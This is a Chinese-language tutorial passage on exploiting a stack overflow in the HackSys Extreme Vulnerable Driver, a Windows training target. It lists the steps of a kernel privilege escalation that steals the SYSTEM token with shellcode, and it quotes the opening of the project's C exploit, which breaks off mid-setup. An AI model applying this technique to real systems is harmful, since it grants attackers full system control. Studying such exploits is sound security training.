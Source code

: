 若是沒有檢查，可能會造成 Overflow，蓋到 ret

```
-0000081C KernelBuffer    db 2048 dup(?)
-0000001C var_1C          dd ?
-00000018 ms_exc          CPPEH_RECORD ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008 UserBuffer      dd ?                    ; offset
+0000000C Size            dd ?
+00000010
+00000010 ; end of stack variables
```

### Exploit

* 首先，在 User Mode 申請一塊具有可讀可寫可執行 (RWX) 權限的記憶體，用來存放 Shellcode
* 把 token stealing shellcode 放到這塊記憶體中
* 取得 HacksysExtremeVulnerableDriver device 的 Handle
* 將 return address 修改為 Userland 中 shellcode 的記憶體位置， 當函數 return 後，shellcode 就會被執行
* Shellcode 會去找 system 這隻 process (PID = 4)，並取得他的 token
* 還原 StackFrame，否則會藍屏，因為在 Kernel 中做事
* 擁有 system token 代表具有 system 的權限，用該權限建立的 cmd.exe 會有 system 的權限

HackSys Extreme Vulnerable Driver 的 [Exploit StackOverflow.c](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Exploit/StackOverflow.c)

```clike=
#include "StackOverflow.h"

DWORD WINAPI StackOverflowThread(LPVOID Parameter) {
    HANDLE hFile = NULL;
    ULONG BytesReturned;
    PVOID MemoryAddress = NULL;
    PULONG UserModeBuffer = NULL;
    LPCSTR FileName = (LPCSTR)DEVICE_NAME;
    PVOID EopPayload = &TokenStealingPayloadWin7; //shellcode
    SIZE_T UserModeBufferSize = (BUFFER_SIZE + RET_OVERWRITE) * sizeof(ULONG);

    __try {
        DEBUG_MESSAGE("\t[+] Setting Thread Priority\n");

        if (!SetThreadPriority(GetCurrentThread(), THREAD_PRIORITY_HIGHEST)) {
            DEBUG_ERROR("\t\t[-] Failed To Set As THREAD_PRIORITY_HIGHEST\n");
        }
        else {
            DEBUG_INFO("\t\t[+] Priority Set To THREAD_PRIORITY_HIGHEST\n");
        }

        // Get the device handle
        DEBUG_MESSAGE("\t[+] Getting Device Driver Handle\n");
        DEBUG_INFO("\t\t[+] Device Name: %s\n", FileName);

        hFile = GetDeviceHandle(FileName);

        if (hFile == INVALID_HANDLE_VALUE) {
            DEBUG_ERROR("\t\t[-] Failed Getting Device Handle: 0x%X\n", GetLastError());
            exit(EXIT_FAILURE);
        }
        else {
            DEBUG_INFO("\t\t[+] Device Handle: 0x%X\n", hFile);
        }

        DEBUG_MESSAGE("\t[+] Setting Up Vulnerability Stage\n");

        DEBUG_INFO("\t\t[+] Allocating Memory For Buffer\n");
```